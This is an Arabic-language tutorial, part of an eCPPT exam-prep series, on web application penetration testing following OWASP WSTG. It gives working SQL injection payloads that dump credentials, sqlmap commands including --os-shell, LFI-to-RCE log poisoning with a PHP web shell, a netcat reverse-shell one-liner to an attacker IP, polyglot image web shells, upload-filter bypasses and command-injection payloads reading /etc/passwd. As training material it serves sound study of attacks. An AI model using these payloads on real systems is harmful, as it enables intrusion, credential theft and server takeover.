


في معظم سيناريوهات اختبارات الاختراق الميدانية وبيئة امتحان **eCPPT**، تكون بوابة الدخول الأولى لشبكة الهدف عبر خدمة ويب عامة (Web Application). قد تكون واجهة إدارة خاصة، أو مدونة بنظام إدارة محتوى، أو واجهة استعلامات داخلية للموظفين.

في هذا الجزء، سنغطي منهجية اختبار تطبيقات الويب بالاعتماد على معيار **OWASP Web Security Testing Guide (WSTG)**، ونستعرض بالتشريح العملي أكثر الثغرات تأثيرًا وخطورة: بدءًا من ثغرات حقن قواعد البيانات (**SQL Injection**) بأنواعها، مرورًا بثغرات تضمين الملفات المحلية (**LFI**) وكيفية تحويلها لتنفيذ أوامر برمجية كاملة (**RCE**)، وانتهاءً بحيل تجاوز فلاتر رفع الملفات الخبيثة (**File Upload Bypasses**).

---

### جدول التنقل في السلسلة (Series Navigation)

| **المقال السابق** | **المقال الحالي** | **المقال القادم** |
| :---: | :---: | :---: |
| [الجزء 7: خوادم القيادة والتحكم (C2 Frameworks)](/posts/ecppt-v3-part-7-command-and-control-c2/) | **الجزء 8: اختبار اختراق تطبيقات الويب (Web Pentesting)** | [الجزء 9: الهجمات من جانب العميل (Client-Side Attacks)](/posts/ecppt-v3-part-9-client-side-attacks/) |

---

## أبرز النقاط الرئيسية (Key Takeaways)

* **منهجية OWASP WSTG v4.2**: الاعتماد على منهجية اختبار قياسية تغطي 12 مجالاً أمنيًا تشمل إدارة الهويات، استيقان المستخدمين، صلاحيات الوصول، والتحقق من صحة المدخلات.
* **حقن SQL المتصل (In-Band Union-Based SQLi)**: استخراج البيانات عبر القناة المباشرة نفسها يتطلب تحديد عدد الأعمدة الدقيق باستخدام `ORDER BY`، ثم معرفة الأعمدة المنعكسة في الصفحة لتمرير بيانات الجداول من `information_schema`.
* **حقن SQL الأعمى (Blind SQLi)**: عندما لا تظهر مخرجات الاستعلام على الشاشة، نستخدم الأسلوب المنطقي الثنائي (Boolean-based) أو استجابة التأخير الزمني (Time-based عبر `SLEEP()` أو `WAITFOR DELAY`) لاستخراج البيانات بايتًا تلو الآخر.
* **تحويل ثغرة LFI إلى RCE عبر تلويث السجلات (Log Poisoning)**: استغلال إمكانية قراءة ملفات السيرفر مثل سجلات أباتشي (`/var/log/apache2/access.log`) أو سجلات SSH (`/var/log/auth.log`)، وحقن كود PHP خبيث داخل ترويسة `User-Agent` ثم استدعاء ملف السجل لتنفيذ الشيفرة.
* **تجاوز فلاتر رفع الملفات (File Upload Evasion)**: الالتفاف على الفلاتر السطحية بتغيير امتدادات الملفات (`.phtml`, `.php5`)، التلاعب بترويسة `Content-Type`، واستخدام البايت الصفري أو تقنيات الصور المتعددة (Polyglot Images).

---

## 1. دورة اختبار تطبيقات الويب وفق OWASP WSTG

يوضح المخطط المنهجي التالي مراحل فحص تطبيقات الويب بدءًا من جمع المعلومات حتى استخراج الصلاحيات:



---

## 2. احتراف ثغرات حقن قواعد البيانات (SQL Injection Mastery)

تحدث ثغرة SQLi عندما يتم دمج مدخلات المستخدم مباشرة داخل استعلام قاعدة البيانات دون استخدام الاستعلامات المجهزة (Parameterized Queries).

### تشريح هجوم Union-Based SQL Injection:



### الأوامر والاستعلامات التكتيكية الميدانية:

#### 1. استخراج أسماء الجداول والأعمدة في MySQL / MariaDB:
```sql
-- 1. كشف اسم قاعدة البيانات الحالية والإصدار والمستخدم
' UNION SELECT 1, database(), version(), user()-- -

-- 2. استخراج كافة أسماء الجداول في قاعدة البيانات الحالية
' UNION SELECT 1, group_concat(table_name), 3, 4 FROM information_schema.tables WHERE table_schema=database()-- -

-- 3. استخراج أسماء الأعمدة في جدول users
' UNION SELECT 1, group_concat(column_name), 3, 4 FROM information_schema.columns WHERE table_name='users'-- -

-- 4. تفريغ بيانات اسم المستخدم وكلمة المرور
' UNION SELECT 1, group_concat(username, 0x3a, password), 3, 4 FROM users-- -
```

#### 2. الاستغلال الآلي المتقدم عبر sqlmap:
```bash
# فحص وتفريغ قاعدة البيانات بشكل آلي وتخطي الفلاتر
sqlmap -u "http://10.10.10.50/view.php?id=1" --batch --random-agent --level=5 --risk=3 --dbs

# تفريغ بيانات جدول المستخدمين
sqlmap -u "http://10.10.10.50/view.php?id=1" -D app_db -T users --dump

# محاولة فتح نظام أوامر تفاعلي على السيرفر (إذا امتلك حساب SQL صلاحية FILE)
sqlmap -u "http://10.10.10.50/view.php?id=1" --os-shell
```

---

## 3. ثغرات تضمين الملفات والوصول إلى RCE (LFI to RCE)

تسمح ثغرة **Local File Inclusion (LFI)** للمهاجم بقراءة ملفات حساسة من نظام تشغيل الخادم نتيجة استخدام دوال تضمين مثل `include()`, `require()` مع مدخلات المستخدم دون تدقيق.

### 1. استكشاف الملفات عبر أغلفة PHP (PHP Wrappers):
إذا كان الكود يقوم بإضافة امتداد `.php` تلقائيًا ويمنع قراءة الأكواد البرمجية مباشرة، نستخدم مرشحات التحويل لقراءة السورس كود مشفرًا بـ Base64:

```text
http://10.10.10.50/index.php?page=php://filter/convert.base64-encode/resource=config
```
نقوم بفك تشفير النص المسترجع للحصول على بيانات الاتصال بقاعدة البيانات ومفاتيح التشفير!

---

### 2. تحويل LFI إلى تنفيذ أوامر كامل (Log Poisoning):

```mermaid
sequenceDiagram
    autonumber
    actor Attacker as جهاز المهاجم
    participant Apache as خادم الويب (Apache)
    participant Log as ملف السجل (/var/log/apache2/access.log)
    
    Attacker->>Apache: إرسال طلب HTTP متعمد يحتوي كود PHP خبيث في User-Agent:<br/>User-Agent: <?php system($_GET['cmd']); ?>
    Apache->>Log: تسجيل تفاصيل الزيارة بالكامل داخل access.log متضمنة كود PHP!
    
    Attacker->>Apache: استدعاء ملف السجل عبر ثغرة LFI وتمرير الأمر:<br/>GET /index.php?page=/var/log/apache2/access.log&cmd=id
    Apache->>Log: قراءة ملف السجل وتفسير كود PHP المخزن بداخله
    Apache-->>Attacker: مخرج الأمر: uid=33(www-data) gid=33(www-data) groups=33!
```

#### الأوامر العملية لتنفيذ هجوم Log Poisoning:

```bash
# 1. تلويث سجل Apache عبر cURL
curl -s -H "User-Agent: <?php system(\$_GET['c']); ?>" "http://10.10.10.50/index.php"

# 2. التحقق من تنفيذ الأوامر عبر المتصفح أو الطرفية
curl "http://10.10.10.50/index.php?page=/var/log/apache2/access.log&c=whoami"

# 3. إرسال اتصال عكسي كامل (Reverse Shell)
curl "http://10.10.10.50/index.php?page=/var/log/apache2/access.log&c=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.5+4444+>/tmp/f"
```

---

## 4. تقنيات تجاوز فلاتر رفع الملفات (File Upload Bypass Tactics)

إذا وفر الموقع ميزة رفع صور شخصية أو مستندات، يحاول المهاجم رفع شل خبيث (WebShell). تضع التطبيقات عوائق دفاعية يمكن الالتفاف عليها:

| نوع الفحص الدفاعي | آلية الدفاع | تقنية التجاوز (Bypass Vector) |
| :--- | :--- | :--- |
| **Client-Side Validation** | سكربت JavaScript يتحقق من الامتداد في المتصفح | إيقاف JavaScript، أو اعتراض الطلب في Burp Suite وتغيير الامتداد بعد الفحص |
| **MIME-Type Verification** | فحص ترويسة `Content-Type` في طلب HTTP | تغيير `Content-Type: application/x-php` إلى `image/jpeg` أو `image/png` |
| **Blacklist Extension** | حظر امتدادات محددة مثل `.php`, `.asp` | تجربة امتدادات بديلة: `.phtml`, `.php3`, `.php4`, `.php5`, `.phar`, `.inc` |
| **Case Sensitivity** | التحقق الحساس لحالة الأحرف | استخدام أحرف كبيرة وصغيرة: `.pHp`, `.pHP5`, `.PhP` |
| **Magic Bytes Inspection** | فحص البايتات الأولى من الملف للتأكد من أنه صورة حقيقية | دمج كود الـ PHP داخل صورة حقيقية (Polyglot) عبر أداة `exiftool` |

### صناعة شل مدمج داخل صورة حقيقية (Image Polyglot):

```bash
# إضافة كود PHP داخل تعليق صورة GIF/JPEG حقيقية دون إفساد بنيتها
exiftool -Comment="<?php system(\$_GET['cmd']); ?>" legit_photo.jpg -o shell.php.jpg

# أو إضافة Magic Bytes يدوية لملف PHP ليظهر كصورة GIF:
echo -e 'GIF89a;\n<?php system($_GET["cmd"]); ?>' > shell.php
```

---

## 5. ثغرات حقن الأوامر البرمجية (OS Command Injection)

عندما يمرر التطبيق مدخلات المستخدم إلى أوامر النظام مثل `ping`, `nslookup`, `traceroute`:

```php
// كود مصاب في PHP
$target = $_POST['ip'];
system("ping -c 3 " . $target);
```

### تقنيات الالتفاف على فلاتر الحماية والفراغات:
* **عوامل التسلسل**: استخدام `;` أو `&&` أو `||` أو الرمز الأنبوبي `|`.
* **الالتفاف على حظر المسافات**: استخدام متغير المسافة في Bash `${IFS}`:
  ```text
  127.0.0.1;cat${IFS}/etc/passwd
  ```
* **تخطي حظر الكلمات المفتاحية**: استخدام التنصيص الفارغ أو المتغيرات:
  ```text
  127.0.0.1;c'a't /et'c'/pas's'wd
  127.0.0.1;echo$IFS$PATH
  ```

---

## المراجع والمصادر الخارجية (References & Further Reading)

1. **OWASP Web Security Testing Guide (WSTG v4.2)**: المرجع الرسمي القياسي لاختبار تطبيقات الويب: [https://owasp.org/www-project-web-security-testing-guide/](https://owasp.org/www-project-web-security-testing-guide/)
2. **PortSwigger Web Security Academy**: المعمل التدريبي العالمي الرائد في ثغرات الويب: [https://portswigger.net/web-security](https://portswigger.net/web-security)
3. **PayloadsAllTheThings - Web Exploitation Repository**: [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
4. **SecLists Discovery & Fuzzing Wordlists by Daniel Miessler**: [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
5. **MITRE ATT&CK Matrix**:
   * Technique T1190: Exploit Public-Facing Application
   * Technique T1059.006: Command and Scripting Interpreter: Python/PHP

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
